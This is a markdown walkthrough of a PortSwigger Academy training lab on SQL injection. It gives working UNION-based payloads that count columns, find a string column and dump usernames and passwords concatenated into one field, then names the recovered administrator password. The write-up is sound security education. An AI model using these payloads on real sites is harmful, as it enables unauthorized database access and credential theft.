


## LAB 4: SQL injection UNION attack, retrieving multiple values in a single column
[SQL injection UNION attack, retrieving multiple values in a single column](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)  
**LEVEL**: PRACTITIONER  
**Description**: This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a `UNION` attack to retrieve data from other tables.

The database contains a different table called users, with columns called `username` and `password`.

To solve the lab, perform an SQL injection `UNION` attack that retrieves all `usernames` and `passwords`, and use the information to log in as the `administrator` user.

## Solution

1. We need to determine the number of columns in the table
2. Determine which column is of type string/varchar
3. We need to fetch the `usernames` and `password`
4. Login with `administrator` user

### 1. Determine the number of columns in the table
Using `ORDER BY` we can determine the number of columns in the table. `ORDER BY` sorts a table by a given column index. We can increment the column number by one until we get an error which will tell us that the previous number is the number of columns in the table. 

Trying the following parameters
`' ORDER BY 1--`
`' ORDER BY 2--`
`' ORDER BY 3--` 

On the last paramter where we order by 3 we get the following error `Internal Server Error` which is a 500 internal error. This means the number of columns in the table is 2.

FULL URL: `https://ac041f421fc249d1c0d807ab002800e3.web-security-academy.net/filter?category=Accessories' ORDER BY 3--`

### 2. Searching for string/varchar column
We need to determine if a column is of type string/varchar this is because we want to be able to return the random string value provided to us by the site as one of the fields. We need to check each column for string/varchar compatibility by return the any string value for the column.

Trying the following parameters
`' UNION SELECT 'abc',NULL--`
`' UNION SELECT NULL'abc'--` - Only the second column is of type strings/varchar so, we need to concat the two username and password into a single column.

FULL URL: `https://ac041f421fc249d1c0d807ab002800e3.web-security-academy.net/filter?category=Accessories' UNION SELECT NULL,'abc'--`

### 3. Fetch the usernames & passwords
We can now use `UNION` attack to return the random value with the NULL fields.

`' UNION SELECT NULL,username||'='||password from users--`

FULL URL: `https://ac041f421fc249d1c0d807ab002800e3.web-security-academy.net/filter?category=Accessories' UNION SELECT NULL,username||'='||password from users--`

### 4. Login as administrator
Login using `administrator`:`fc370xmxt1os4qi3eyh0`

<!-- EOF -->